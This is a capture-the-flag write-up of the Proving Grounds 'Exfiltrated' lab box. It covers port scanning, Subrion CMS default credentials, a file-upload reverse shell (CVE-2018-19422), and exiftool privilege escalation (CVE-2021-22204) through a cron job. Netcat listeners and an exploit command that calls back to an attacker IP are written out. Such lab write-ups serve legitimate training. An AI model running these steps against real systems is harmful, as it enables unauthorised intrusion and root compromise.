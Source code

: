 ```yaml
---
title: "Proving Grounds - Exfiltrated"
categories: [Proving Grounds, Easy]
tags: [Linux, Web, Subrion, Exiftool, OSCP]
mermaid: true
image: ../assets/img/oscp/oscp.png
---
```


Exfiltrated was a well-structured box that provided an excellent opportunity to exploit a Subrion CMS vulnerability and perform privilege escalation via an Exiftool exploit. 

Initial enumeration led to the discovery of Subrion CMS, and default credentials allowed for access to the admin panel. 

By exploiting a file upload vulnerability, a reverse shell was obtained. Further enumeration revealed a cron job running Exiftool on uploaded images, which was leveraged to escalate privileges and capture the flag.

# Diagram

```mermaid
graph TD
    A[Host Enumeration] -->|Nmap Scan| B[Identify Subrion CMS]
    B -->|Default Credentials| C[Admin Panel Access]
    C -->|File Upload Vulnerability| D[Upload Reverse Shell]
    D -->|Execute Reverse Shell| E[Gain Initial Access]
    E -->|Cron Job Enumeration| F[Identify Exiftool Usage]
    F -->|Exploit Exiftool| G[Privilege Escalation]
    G -->|Capture Flag| H[Success]
```

## Information Gathering

### Portscan

---

- `nmap -sS -Pn -n -T4 --open 192.168.177.163`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open 192.168.177.163 -p-`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,80 192.168.177.163`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%202.png)
    

## Enumeration

### HTTP 80
---

- [http://192.168.177.163](http://192.168.177.163) → redirects to exfiltrated.offsec
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%203.png)
    
- `cat /etc/hosts`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%204.png)
    

- [http://exfiltrated.offsec/](http://exfiltrated.offsec/) → Subrion CMS
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%205.png)
    
- [http://exfiltrated.offsec/robots.txt](http://exfiltrated.offsec/robots.txt)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%206.png)
    
- [http://exfiltrated.offsec/panel/](http://exfiltrated.offsec/panel/) → Panel Login. CMS v4.2.1
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%207.png)
    

- `searchsploit Subrion CMS 4.2.1`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%208.png)
    

- Subrion default credentials: admin/admin
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%209.png)
    

- [http://exfiltrated.offsec/panel/members/add/](http://exfiltrated.offsec/panel/members/add/) → made login
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2010.png)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2011.png)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2012.png)
    

Once authenticated i tried this exploit

- https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

After read the exploit i decided to put an reverse shell inside the [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/) 

- `cat revShell.phar`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2013.png)
    
- [http://exfiltrated.offsec/panel/uploads/](http://exfiltrated.offsec/panel/uploads/)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2014.png)
    

- [http://exfiltrated.offsec/uploads/revShell.phar](http://exfiltrated.offsec/uploads/revShell.phar)
`rlwrap nc -lvnp 80`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2015.png)
    

## Priv Escalation

---

- `cat /etc/cron*`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2016.png)
    
- `cat /opt/image-exif.sh`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2017.png)
    
- `ls -lh /opt/image-exif.sh`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2018.png)
    
- `ls -ld /var/www/html/subrion/uploads /opt/metadata`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2019.png)
    

Since the cron script writes EXIF metadata to a log file in `/opt/metadata` using the `exiftool` command, one possible attack vector is to exploit a symlink attack if the script does not properly handle symbolic links.

- `exiftool -ver`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2020.png)
    

- `searchsploit exiftool`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2021.png)
    

Searching more i found this repository

[https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git](https://github.com/mr-tuhin/CVE-2021-22204-exiftool.git)

But wasn’t working because of the bbz

- `sudo apt-get install imagemagick djvulibre-bin exiftool`

- `python3 exploit.py 192.168.45.194 4430`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2022.png)
    
- [http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw](http://exfiltrated.offsec/panel/uploads/#elf_l1_Lw)
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2023.png)
    
- [http://exfiltrated.offsec/uploads/image.jpg](http://exfiltrated.offsec/uploads/image.jpg)
`rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2024.png)
    

- `Flag.txt`
    
    ![Untitled](../assets/img/oscp/Exfiltrated/Untitled%2025.png)